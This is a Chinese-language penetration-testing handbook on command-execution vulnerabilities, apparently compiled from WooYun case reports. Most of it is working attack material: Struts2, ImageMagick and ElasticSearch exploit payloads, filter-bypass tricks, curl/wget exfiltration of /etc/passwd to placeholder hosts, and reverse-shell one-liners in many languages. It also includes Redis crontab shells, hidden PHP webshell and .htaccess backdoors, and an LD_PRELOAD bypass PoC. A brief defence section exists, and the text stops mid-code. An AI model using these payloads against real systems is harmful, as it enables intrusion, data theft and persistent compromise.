

# 命令执行漏洞分析手册

> 基于 WooYun 漏洞库 6826 个命令执行漏洞案例的深度分析
> 分析样本：详细程度排名前50的高质量案例

---

## 一、命令执行入口点分类

### 1.1 统计概览

| 入口类型 | 案例数 | 占比 | 典型场景 |
|---------|--------|------|---------|
| 文件操作 | 34 | 68% | 文件上传、读取、解压 |
| 系统命令函数 | 31 | 62% | exec/system/shell_exec |
| Struts2框架 | 25 | 50% | OGNL表达式注入 |
| 压缩解压 | 15 | 30% | tar/zip/gzip处理 |
| SSRF | 15 | 30% | URL参数传递 |
| ping命令 | 13 | 26% | 网络诊断功能 |
| 图片处理 | 12 | 24% | ImageMagick/GraphicsMagick |
| 网络请求 | 12 | 24% | curl/wget调用 |
| Java反序列化 | 10 | 20% | WebLogic/JBoss |
| DNS查询 | 8 | 16% | nslookup/dig |

### 1.2 高频入口点详解

#### 1.2.1 ImageMagick 命令执行 (CVE-2016-3714)

**漏洞原理**：ImageMagick处理图片时，delegate.xml配置文件中的命令存在注入点

**典型POC**：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/[已脱敏]"|bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1 &")'
pop graphic-context
```

**另一种写法**：
```
push graphic-context
viewbox 0 0 640 480
image copy 200,200 100,100 "|bash -i >& /dev/tcp/ATTACKER_IP/53 0>&1"
pop graphic-context
```

**实战案例**：
- wooyun-2016-0205171：人人网头像上传处，直接获取root shell
- wooyun-2016-0214726：某社交平台站点，补丁绕过
- wooyun-2016-0205815：小咖秀APP头像上传

**利用条件**：
1. 网站使用ImageMagick处理用户上传的图片
2. 版本 < 6.9.3-10 或 7.x < 7.0.1-1

---

#### 1.2.2 FFmpeg SSRF/文件读取

**漏洞原理**：FFmpeg处理HLS播放列表时，可利用concat协议读取本地文件或发起SSRF

**典型POC**：
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:https://example.com/[已脱敏]
#EXT-X-ENDLIST
```

**文件读取POC**：
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
concat:file:///etc/passwd
#EXT-X-ENDLIST
```

**实战案例**：
- wooyun-2016-0205709：某视频网站上传处

---

#### 1.2.3 Struts2 OGNL表达式注入

**漏洞原理**：Struts2框架对用户输入的OGNL表达式处理不当

**S2-045 POC**：
```
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',123*123)}.multipart/form-data
```

**S2-016/S2-013 redirect/action POC**：
```
redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23out%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23out.getWriter().println('dbapp%3A'+new java.lang.String(%23e)),%23out.getWriter().flush(),%23out.getWriter().close()}
```

**通用命令执行表达式**：
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
```

**实战案例**：
- wooyun-2015-0122286：蓝港在线 Expression language injection
- wooyun-2014-087017：土豆网struts命令执行
- wooyun-2015-0164662：国家孕前优生系统

---

#### 1.2.4 Java反序列化 (WebLogic/JBoss/Jenkins)

**漏洞原理**：Java反序列化时执行恶意构造的对象链

**WebLogic T3协议利用**：
```bash
java -jar ysoserial.jar CommonsCollections1 "whoami" | nc target 7001
```

**JBoss JMX-Console利用**：
```
# 访问 /jmx-console 上传war包
# 默认密码：admin/admin
http://target:8080/jmx-console/
```

**实战案例**：
- wooyun-2015-0166055：中石化WebLogic root权限
- wooyun-2015-0163942：泛华保险WebLogic
- wooyun-2015-0144418：某运营商JBoss

---

#### 1.2.5 ElasticSearch Groovy脚本执行

**漏洞原理**：ElasticSearch 1.x版本默认开启动态脚本执行

**POC**：
```json
POST /_search?pretty HTTP/1.1
Host: target:9200
Content-Type: application/json

{
  "script_fields": {
    "exp": {
      "script": "java.lang.Runtime.getRuntime().exec('id')"
    }
  }
}
```

**Groovy沙箱绕过**：
```json
{
  "size": 1,
  "script_fields": {
    "lupin": {
      "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"
    }
  }
}
```

**实战案例**：
- wooyun-2015-099709：乐元素多处ElasticSearch

---

#### 1.2.6 ping命令注入

**漏洞原理**：将用户输入直接拼接到ping命令中

**PHP典型漏洞代码**：
```php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
```

**POC**：
```
ip=[IP已脱敏];whoami
ip=[IP已脱敏]|id
ip=[IP已脱敏]`id`
ip=[IP已脱敏]$(id)
ip=[IP已脱敏]%0aid
```

---

## 二、命令拼接符号

### 2.1 统计概览

| 符号 | 案例数 | 含义 | 执行逻辑 |
|------|--------|------|---------|
| `;` | 30 | 命令分隔符 | 顺序执行，不管前面成功与否 |
| `\|` | 14 | 管道符 | 前面输出作为后面输入 |
| `` ` `` | 5 | 命令替换 | 执行反引号内命令 |
| `\|\|` | 5 | 逻辑或 | 前面失败才执行后面 |
| `%0a` | 1 | 换行符 | URL编码的换行 |
| `&&` | 1 | 逻辑与 | 前面成功才执行后面 |
| `$()` | 1 | 命令替换 | 执行括号内命令 |

### 2.2 各符号详解

#### 2.2.1 分号 `;`
```bash
# 最常用，不受前命令执行结果影响
ping [IP已脱敏]; whoami; id
```

#### 2.2.2 管道符 `|`
```bash
# 前面输出作为后面输入
ping [IP已脱敏] | id
# 常见变形
ping [IP已脱敏] || id  # 前面失败执行后面
```

#### 2.2.3 命令替换
```bash
# 反引号方式
ping `whoami`
# $()方式
ping $(whoami)
```

#### 2.2.4 逻辑运算符
```bash
# && 前面成功才执行后面
ping [IP已脱敏] && whoami
# || 前面失败才执行后面
ping 不存在的地址 || whoami
```

#### 2.2.5 换行符
```
# URL编码换行
ping%0awhoami
ping%0d%0awhoami
```

---

## 三、绕过过滤技巧

### 3.1 统计概览

| 绕过技巧 | 案例数 | 适用场景 |
|---------|--------|---------|
| 通配符 | 45 | 文件名/命令名过滤 |
| cat替代命令 | 30 | cat关键字过滤 |
| 尖括号 `<>` | 29 | 空格过滤 |
| Hex编码 | 12 | 字符过滤 |
| URL编码 | 8 | Web场景 |
| `%09` Tab | 5 | 空格过滤 |
| Base64编码 | 2 | 复杂命令传递 |

### 3.2 空格绕过

#### 3.2.1 `${IFS}` 内部字段分隔符
```bash
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
cat${IFS}$9/etc/passwd
```

#### 3.2.2 Tab制表符 `%09`
```bash
cat%09/etc/passwd
```

#### 3.2.3 重定向符号 `<>`
```bash
cat</etc/passwd
{cat,/etc/passwd}
```

#### 3.2.4 大括号扩展
```bash
{cat,/etc/passwd}
{ls,-la,/}
```

### 3.3 关键字绕过

#### 3.3.1 引号分割
```bash
c'a't /etc/passwd
c"a"t /etc/passwd
c``at /etc/passwd
```

#### 3.3.2 反斜杠分割
```bash
c\at /etc/passwd
wh\oami
```

#### 3.3.3 变量拼接
```bash
a=c;b=at;$a$b /etc/passwd
```

#### 3.3.4 通配符
```bash
/bin/ca* /etc/passwd
/bin/c?t /etc/passwd
/???/??t /etc/passwd
```

### 3.4 cat命令替代

```bash
# 以下命令均可读取文件内容
tac /etc/passwd      # 反向输出
head /etc/passwd     # 输出开头
tail /etc/passwd     # 输出结尾
more /etc/passwd     # 分页查看
less /etc/passwd     # 分页查看
nl /etc/passwd       # 带行号输出
sort /etc/passwd     # 排序输出
uniq /etc/passwd     # 去重输出
od -c /etc/passwd    # 八进制输出
xxd /etc/passwd      # 十六进制输出
base64 /etc/passwd   # base64编码输出
rev /etc/passwd      # 字符反转
paste /etc/passwd    # 合并文件
```

### 3.5 编码绕过

#### 3.5.1 Base64编码
```bash
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash
bash -c "$(echo Y2F0IC9ldGMvcGFzc3dk | base64 -d)"
```

#### 3.5.2 Hex编码
```bash
echo -e "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" | bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```

#### 3.5.3 URL编码
```
cat%20/etc/passwd
cat%09/etc/passwd
```

### 3.6 路径绕过

```bash
# 绝对路径
/bin/cat /etc/passwd
/usr/bin/id

# 环境变量
$HOME
$PATH

# 特殊路径
/???/??t /???/p??s??  # 通配符
```

---

## 四、无回显检测方法

### 4.1 统计概览

| 检测方法 | 案例数 | 原理 |
|---------|--------|------|
| HTTP外带 | 41 | curl/wget发送结果 |
| DNSLog | 9 | DNS查询记录 |
| 时间延迟 | 6 | sleep/ping延迟 |
| 文件写入 | 2 | 写入web目录 |

### 4.2 DNSLog外带

**常用平台**：
- ceye.io
- dnslog.cn
- burpcollaborator

**POC**：
```bash
# 基本外带
ping `whoami`.xxxxx.ceye.io

# 带数据外带
curl http://`whoami`.xxxxx.ceye.io

# 完整数据外带
curl https://example.com/[已脱敏]`cat /etc/passwd | base64 | tr '\n' '-'`
```

### 4.3 HTTP外带

**curl方式**：
```bash
# GET请求带数据
curl https://example.com/[已脱敏]`whoami`
curl https://example.com/[已脱敏]`cat /etc/passwd | base64`

# POST请求
curl -X POST -d "data=$(cat /etc/passwd)" https://example.com/[已脱敏]
```

**wget方式**：
```bash
wget https://example.com/[已脱敏]`whoami`
wget https://example.com/[已脱敏])
```

### 4.4 时间延迟检测

```bash
# sleep命令
sleep 5

# ping延迟
ping -c 5 [IP已脱敏]

# 条件延迟
if [ $(whoami) = "root" ]; then sleep 5; fi
```

### 4.5 文件写入检测

```bash
# 写入web目录
echo "<?php phpinfo();?>" > /var/www/html/info.php

# 写入临时文件
id > /tmp/result.txt
cat /tmp/result.txt

# 追加写入
id >> /var/www/html/log.txt
```

---

## 五、常见漏洞框架/CMS

### 5.1 统计概览

| 框架/CMS | 案例数 | 主要漏洞类型 |
|---------|--------|-------------|
| Struts2 | 23 | OGNL表达式注入 |
| JBoss | 9 | 反序列化/JMX |
| Tomcat | 9 | PUT上传/AJP |
| ElasticSearch | 8 | Groovy脚本执行 |
| Discuz | 7 | 代码执行/SSRF |
| phpMyAdmin | 6 | SQL到命令执行 |
| WebLogic | 5 | 反序列化 |
| Redis | 4 | 未授权/写文件 |
| Spring | 4 | SpEL注入 |
| Zabbix | 2 | 命令执行 |
| Nagios | 2 | 命令执行 |
| ThinkPHP | 1 | 代码执行 |

### 5.2 各框架漏洞详解

#### 5.2.1 Struts2系列漏洞

| CVE编号 | 漏洞名称 | 影响版本 |
|---------|---------|---------|
| S2-001 | OGNL注入 | 2.0.0-2.0.8 |
| S2-005 | OGNL注入 | 2.0.0-[IP已脱敏] |
| S2-009 | OGNL注入 | 2.1.0-[IP已脱敏] |
| S2-013 | URL重定向 | 2.0.0-[IP已脱敏] |
| S2-016 | redirect/action | 2.0.0-2.3.15 |
| S2-019 | 动态方法调用 | 2.0.0-[IP已脱敏] |
| S2-032 | 动态方法调用 | 2.3.20-2.3.28 |
| S2-045 | Content-Type | 2.3.5-2.3.31 |
| S2-046 | Content-Disposition | 2.3.5-2.3.31 |
| S2-048 | Struts1插件 | 2.3.x with Struts1 |
| S2-052 | REST插件 | 2.1.2-2.3.33 |
| S2-053 | Freemarker | 2.0.1-2.3.33 |
| S2-057 | namespace | 2.0.4-2.3.34 |

#### 5.2.2 WebLogic反序列化

**影响版本**：
- [IP已脱敏]
- [IP已脱敏]
- [IP已脱敏]
- [IP已脱敏]

**漏洞端口**：7001 (T3协议)

**检测方法**：
```bash
nmap -p 7001 --script=weblogic-t3-info target
```

#### 5.2.3 JBoss漏洞

**常见漏洞入口**：
- /jmx-console (默认admin/admin)
- /invoker/JMXInvokerServlet
- /invoker/EJBInvokerServlet

**利用方式**：
1. 上传war包部署webshell
2. 反序列化执行命令

#### 5.2.4 Redis未授权

**利用条件**：
- Redis未设置密码
- 可以访问Redis端口(6379)

**写SSH公钥**：
```bash
redis-cli -h target
config set dir /root/.ssh
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAA...\n\n"
save
```

**写crontab**：
```bash
config set dir /var/spool/cron
config set dbfilename root
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/attacker/8080 0>&1\n\n"
save
```

---

## 六、实战Payload集合

### 6.1 反弹Shell

#### Bash
```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

#### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

#### Perl
```bash
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP
```bash
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat
```bash
nc -e /bin/sh ATTACKER_IP PORT
nc ATTACKER_IP PORT -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

### 6.2 写Webshell

#### PHP一句话
```bash
echo '<?php @eval($_POST["pass"]);?>' > /var/www/html/shell.php
```

#### JSP Webshell
```bash
echo '<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>' > shell.jsp
```

### 6.3 信息收集

```bash
# 系统信息
uname -a
cat /etc/issue
cat /etc/*-release

# 用户信息
id
whoami
cat /etc/passwd
cat /etc/shadow

# 网络信息
ifconfig
ip addr
netstat -antlp
ss -antlp

# 进程信息
ps aux
ps -ef

# 定时任务
crontab -l
cat /etc/crontab
ls -la /etc/cron.*
```

---

## 七、防御建议

### 7.1 输入验证

1. **白名单验证**：只允许特定字符（如IP地址只允许数字和点）
2. **类型验证**：确保输入是预期的数据类型
3. **长度限制**：限制输入长度防止注入

### 7.2 命令执行防护

1. **避免直接执行**：使用语言内置函数代替系统命令
2. **参数化执行**：使用数组传参而非字符串拼接
3. **转义特殊字符**：escapeshellarg() / escapeshellcmd()

**PHP安全示例**：
```php
// 危险写法
system("ping " . $_GET['ip']);

// 安全写法
$ip = escapeshellarg($_GET['ip']);
system("ping " . $ip);

// 更安全：白名单验证
if (filter_var($_GET['ip'], FILTER_VALIDATE_IP)) {
    system("ping " . escapeshellarg($_GET['ip']));
}
```

### 7.3 框架/组件更新

1. 及时更新Struts2、WebLogic等框架
2. 禁用不必要的功能（如Struts2动态方法调用）
3. 配置安全策略（如ElasticSearch禁用脚本）

### 7.4 最小权限原则

1. Web服务使用低权限用户运行
2. 限制命令执行用户的权限
3. 使用chroot/容器隔离

---

## 八、检测思路

### 8.1 漏洞发现流程

```
1. 识别入口点
   - 搜索功能(ping/nslookup)
   - 文件操作(上传/下载/压缩)
   - 图片处理
   - 框架特征识别

2. 判断执行环境
   - Linux/Windows
   - 有无回显
   - 过滤规则探测

3. 构造Payload
   - 基础payload测试
   - 绕过技巧组合
   - 外带数据验证

4. 验证利用
   - 信息收集
   - 反弹shell
   - 持久化
```

### 8.2 自动化检测要点

1. **识别框架**：Struts2(.action/.do)、ThinkPHP、Spring等
2. **参数测试**：所有用户可控参数都应测试
3. **时间盲注**：无回显时使用sleep验证
4. **外带验证**：DNSLog/HTTP请求确认执行

---

## 九、案例参考索引

| 漏洞类型 | WooYun编号 | 关键特征 |
|---------|-----------|---------|
| WebLogic反序列化 | wooyun-2015-0166055 | T3协议 |
| JBoss反序列化 | wooyun-2015-0144418 | JMX-Console |
| Struts2 OGNL | wooyun-2015-0122286 | Expression注入 |
| ImageMagick | wooyun-2016-0205171 | 图片上传 |
| FFmpeg | wooyun-2016-0205709 | 视频上传 |
| ElasticSearch | wooyun-2015-099709 | Groovy脚本 |
| ThinkPHP | wooyun-2015-0141195 | 命令注入 |
| CGI命令执行 | wooyun-2015-0155792 | Shellshock |
| 防火墙后门 | wooyun-2016-0180305 | 代码审计 |

---

> 最后更新：基于WooYun漏洞库分析
> 分析工具：Python + JSON解析
> 样本规模：6826个命令执行漏洞，深度分析50个高质量案例

---

## 十、PHP命令执行元思考方法论

> **核心洞察**：命令执行漏洞的本质是「数据流污染」——用户输入的数据在未充分净化的情况下进入执行上下文
> **关键能力**：识别危险函数 → 追踪数据流 → 构造利用链 → 绕过防护

### 10.1 危险函数识别矩阵（INTJ三维分类法）

#### 维度一：执行能力层级

| 层级 | 函数 | 执行范围 | 回显能力 | 危险度 |
|-----|------|---------|---------|--------|
| **L1-代码级** | eval(), assert(), create_function() | PHP代码执行 | 可控 | ⚠️⚠️⚠️ 极危 |
| **L2-Shell级** | system(), passthru(), shell_exec() | 系统命令 | 有回显 | ⚠️⚠️ 高危 |
| **L3-进程级** | exec(), popen(), proc_open() | 子进程 | 受限 | ⚠️ 中危 |
| **L4-回调级** | call_user_func*, array_map() | 函数调用 | 上下文相关 | ⚠️ 低危 |

#### 维度二：数据流向模式



#### 维度三：利用链复杂度

| 复杂度 | 利用模式 | 典型场景 | 测试成本 |
|--------|---------|---------|---------|
| **C1-直链** | 参数→危险函数 | eval($_GET['x']) | 低 |
| **C2-传导链** | 参数→变量→危险函数 | $code=$_GET['x']; eval($code) | 中 |
| **C3-混合链** | 多参数组合→危险函数 | 模板引擎/框架漏洞 | 高 |
| **C4-逻辑链** | 条件触发→危险函数 | 反序列化/定时任务 | 极高 |

### 10.2 PHP危险函数深度解析

#### 10.2.1 eval() - 代码执行之王

**元思考特征**：
- 直接执行PHP代码，无需任何中间转换
- 执行上下文继承当前作用域的所有变量
- 可通过return语句传递数据

**典型漏洞模式**：

```php
// 模式1: 直接执行
eval($_POST['code']);  // 最危险

// 模式2: 变量传递
$code = $_GET['func'];
eval($code);  // 间接危险

// 模式3: 字符串拼接
eval('$result = ' . $_GET['expr'] . ';');  // 表达式注入

// 模式4: 动态函数名
$func = $_GET['f'];
eval('$func();');  // 函数调用注入
```

**测试Payload矩阵**：

| 测试目标 | Payload | 预期结果 |
|---------|---------|---------|
| 基础验证 | `phpinfo();` | 显示PHP配置 |
| 代码执行 | `system('whoami');` | 执行系统命令 |
| 文件读取 | `file_get_contents('/etc/passwd');` | 读取敏感文件 |
| 写Webshell | `file_put_contents('shell.php','<?php @eval($_POST[x]);?>');` | 写入一句话木马 |
| 变量泄露 | `var_dump(get_defined_vars());` | 泄露所有变量 |
| 无回显 | `${system($_GET['cmd'])}` | HTTP外带数据 |

#### 10.2.2 assert() - 代码执行潜伏者

**版本差异**：
- PHP 5.x: assert()可执行代码
- PHP 7.x: 仅用于表达式测试，不可执行代码
- PHP 8.x: 完全移除字符串参数功能

**典型漏洞代码**：
```php
// PHP 5.x 危险写法
assert($_POST['cmd']);  // 直接执行
assert(trim($_GET['x']));  // 经包装仍危险
```

**利用技巧**：
```php
// 绕过引号过滤
assert($_POST{x});  // 使用花括号

// 多语句执行
assert($_POST['cmd']);exit;  // 添加exit防止后续代码干扰
```

#### 10.2.3 preg_replace() /e - 正则黑洞

**漏洞原理**：/e修饰符使replacement参数作为PHP代码执行

**危险模式**：
```php
// CVE-2016-5734 / phpMyAdmin 2.x
preg_replace('/\s/e', $_GET['c'], $data);
```

**利用Payload**：
```php
// 基础执行
preg_replace('/a/e', 'phpinfo()', 'a');

// 复杂命令
preg_replace('/a/e', 'system("whoami")', 'a');

// 编码绕过
preg_replace('/a/e', 'chr(115).chr(121).chr(115).chr(116).chr(101).chr(109)', 'a');
```

#### 10.2.4 system() - 命令执行直通车

**函数特性**：
- 直接输出执行结果到标准输出
- 仅返回最后一行
- 自动调用shell处理命令

**测试Payload（Linux）**：
```bash
# 基础命令执行
system('whoami');
system('id');
system('pwd');

# 命令链
system('whoami && id && pwd');
system('whoami;id;pwd');
system('whoami|id');

# 特殊字符测试
system('whoami;cat /etc/passwd');
system('whoami`id`');
system('whoami$(id)');
```

**测试Payload（Windows）**：
```cmd
# 基础命令
system('whoami');
system('ipconfig');
system('net user');

# Windows命令链
system('whoami & dir');  # & 不论成功与否都执行
system('whoami && dir');  # && 前命令成功才执行
system('whoami || dir');  # || 前命令失败才执行

# PowerShell绕过
system('powershell -c "whoami"');
system('powershell -c "IEX (New-Object Net.WebClient).DownloadString(\'https://example.com/[已脱敏]')"');
```

#### 10.2.5 shell_exec() - 静默执行者

**函数特性**：
- 执行命令但无直接输出
- 返回全部执行结果
- 等价于反引号 `` `command` ``

**典型场景**：
```php
// 场景1: 赋值后输出
$output = shell_exec($_GET['cmd']);
echo $output;

// 场景2: 日志记录
shell_exec('ping -c 1 ' . $_GET['ip']);

// 场景3: 反引号形式
`ls -la $_GET['dir']`;
```

**测试技巧**：
```php
// 有回显场景
shell_exec('whoami');

// 无回显场景 - HTTP外带
shell_exec('curl https://example.com/[已脱敏])');

// DNS外带
shell_exec('ping $(whoami).ceye.io');
```

#### 10.2.6 exec() 与 passthru() 对比

| 特性 | exec() | passthru() |
|-----|--------|------------|
| 输出方式 | 需手动echo | 自动输出 |
| 返回值 | 最后一行 | 无返回 |
| 二进制数据 | 需配合proc_open() | 可直接输出图片等 |
| 适用场景 | 需要处理结果 | 显示命令原始输出 |

**代码示例**：
```php
// exec() - 需要输出
exec('ls -la', $output);
print_r($output);

// passthru() - 自动输出
passthru('ls -la');
```

### 10.3 测试Payload完整矩阵

#### 10.3.1 基础验证Payload（通用）

**目标：验证漏洞存在性**

| 执行方式 | Linux | Windows |
|---------|-------|---------|
| 用户身份 | `whoami` | `whoami` |
| 系统信息 | `uname -a` | `ver` |
| 当前目录 | `pwd` | `cd` |
| 网络配置 | `ifconfig` | `ipconfig` |
| 进程列表 | `ps aux` | `tasklist` |

#### 10.3.2 代码执行Payload（PHP特有）

**目标：获取PHP执行环境**

```php
// 显示PHP信息
phpinfo()

// 显示所有变量
var_dump(get_defined_vars())
print_r($_SERVER)
print_r($_ENV)

// 读取文件
file_get_contents('/etc/passwd')
highlight_file('/var/www/html/config.php')
show_source('/etc/passwd')

// 写入文件
file_put_contents('/var/www/html/shell.php','<?php @eval($_POST[x]);?>')

// 列出目录
scandir('/var/www/html')
glob('/var/www/html/*')

// 执行系统命令
system('whoami')
shell_exec('id')
passthru('pwd')
exec('ls -la')
```

#### 10.3.3 命令链Payload

**目标：在单次请求中执行多个命令**

```bash
# Linux命令链
whoami;id;pwd  # 分号分隔
whoami && id && pwd  # 逻辑与
whoami || id  # 逻辑或
whoami|id  # 管道
whoami`id`  # 命令替换
whoami$(id)  # $()替换

# Windows命令链
whoami & dir  # &无条件执行
whoami && dir  # &&成功执行
whoami || dir  # ||失败执行
whoami | dir  # 管道
```

#### 10.3.4 无回显场景Payload

**目标：在无输出时验证执行**

**DNSLog外带**：
```bash
# 基础验证
ping `whoami`.xxxxx.ceye.io

# 数据外带
curl https://example.com/[已脱敏]`cat /etc/passwd | base64 | tr '\n' '-'`

# Windows
ping %COMPUTERNAME%.xxxxx.ceye.io
nslookup %USERNAME%.xxxxx.ceye.io
```

**HTTP外带**：
```bash
# Linux
curl https://example.com/[已脱敏])
wget https://example.com/[已脱敏])

# Windows
powershell -c "Invoke-WebRequest -Uri 'https://example.com/[已脱敏]'$env:USERNAME"
certutil -urlcache -split -f "https://example.com/[已脱敏]" C:\test.txt
```

**时间延迟**：
```bash
# Linux
sleep 5
ping -c 5 [IP已脱敏]

# Windows
timeout 5
ping -n 6 [IP已脱敏]
```

#### 10.3.5 文件写入Payload

**目标：持久化后门**

```php
// PHP Webshell
file_put_contents('/var/www/html/.config.php','<?php @eval($_POST[x]);?>')

// 隐蔽写法（绕过关键词检测）
$func = 'file_' . 'put_' . 'contents';
$file = '/var/www/html/.config.php';
$data = chr(60).chr(63).chr(112).chr(104).chr(112).chr(32); // <?php
$func($file,$data);

// .htaccess后门
file_put_contents('/var/www/html/.htaccess','ErrorDocument 404 "/eval.php"');

// 自动加载型
file_put_contents('/var/www/html/index.php','<?php include(".config.jpg");?>');
file_put_contents('/var/www/html/.config.jpg','<?php @eval($_POST[x]);?>');
```

#### 10.3.6 反弹Shell Payload

**目标：获取交互式Shell**

```bash
# Bash TCP
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# Bash UDP
bash -i >& /dev/udp/ATTACKER_IP/PORT 0>&1

# POSIX sh
sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# NC (监听端: nc -lvp PORT)
nc -e /bin/sh ATTACKER_IP PORT
nc.traditional -e /bin/sh ATTACKER_IP PORT

# NC无-e参数
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# PHP
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# PowerShell (Windows)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback=(iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### 10.4 disable_functions 绕过方法论

> **核心洞察**：PHP disable_functions是黑名单机制，存在固有缺陷。关键是找到未被禁用的函数组合替代被禁函数。

#### 10.4.1 LD_PRELOAD绕过

**原理**：通过环境变量LD_PRELOAD劫持系统库函数，在启动子进程时优先加载恶意.so文件

**利用条件**：
- 存在可执行系统命令的函数（mail(), error_log()等）
- 可上传.so文件或使用PHP生成

**POC代码**：
```php
<?php
// 生成恶意.so文件
$so_code = <<<EOF
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1");
}

int geteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
EOF;

// 编译.so（需要在可写目录）
file_put_contents('/tmp/exploit.c', $so_code);
system('gcc -shared -fPIC /tmp/exploit.c -o /tmp/exploit.so');

// 触发执行
putenv("LD_PRELOAD=/tmp/exploit.so");
mail("a@a.com", "test", "test");  // mail()会启动sendmail进程
?>
```

#### 10.4.2 Shellshock (CVE-2014-6271) 绕过

**原理**：Bash 4.3及以下版本存在环境变量命令注入漏洞

**检测POC**：
```bash
# 检测是否存在Shellshock
env x='() { :;}; echo vulnerable' bash -c "echo test"

# 如果输出vulnerable则存在漏洞
```

**利用Payload**：
```php
<?php
// 通过环境变量触发
